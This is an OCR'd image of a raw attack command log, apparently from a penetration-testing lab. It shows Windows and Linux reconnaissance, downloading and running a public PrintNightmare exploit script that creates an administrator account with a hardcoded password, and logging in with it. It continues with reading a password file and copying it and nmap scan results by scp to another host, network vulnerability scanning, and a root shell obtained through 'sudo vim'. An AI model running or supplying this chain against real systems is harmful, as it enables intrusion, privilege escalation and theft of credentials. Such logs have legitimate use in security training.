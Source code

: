 ```
net view
ifconfig
ipconfig
ipconfig /all
netstat -ano
route print
cd ..
Invoke-WebRequest 'https://raw.githubusercontent.com/JohnHammond/CVE-2021-34527/refs/heads/master/CVE-2021-34527.ps1' -OutFile .\CVE-2021-34527.ps1
nmap -A 10.0.1.0/24
ls
Import-Module .\CVE-2021-34527.ps1
Invoke-Nightmare 
$user = "adm1n"
$pw = "P@ssw0rd"
$password = $pw | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $user,$password 
New-PSSession -Credential $cred | Enter-PSSession

-->

[localhost]: PS C:\Users\adm1n\Documents> whoami
cd C:\Users\TestAdmin\Documents\
ls
Copy-Item .\pw.txt C:\Users\TestAdmin\pw.txt
type .\pw.txt
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password pw.txt debian@10.1.3.165:/home/debian/
exit
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password pw.txt debian@10.1.3.165:/home/debian/
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password ubuntu@10.0.1.16 -p 666

-->

Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64) 

whoami
(cat /proc/version || uname -a ) 2>/dev/null
echo $PATH
cat /proc/version
uname -a
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
sudo -V
ls
cd Documents/
ls
cat secret.txt 
ls -lah 
sudo -l
nmap -A -p- -sV -sC -oN nmap.txt 10.0.1.0/25
cd ..
nmap -A -p- -sV -sC -oN nmap.txt 10.0.1.0/25
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password nmap.txt debian@10.1.3.165:/home/debian/
nmap -Pn --script vuln 10.0.1.20
sudo vim -c '!sh'

-->

:!sh
# whoami
```